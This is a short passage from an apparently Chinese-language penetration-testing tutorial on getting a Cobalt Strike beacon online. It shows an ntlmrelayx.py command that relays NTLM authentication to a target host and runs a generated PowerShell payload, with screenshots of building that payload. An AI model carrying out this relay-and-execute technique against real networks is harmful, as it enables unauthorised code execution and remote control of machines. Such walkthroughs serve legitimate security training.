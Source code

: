![](img/26.png)

**CS上线**

我们可以利用这个技巧执行 `POWERSHELL command` 上线 `CS`

```bash
ntlmrelayx.py -t <Client ip> -c '生成的powershell脚本内容'
```

点击攻击生成payload

![](img/27.png)

选择 Powershell Command

![](img/28.png)

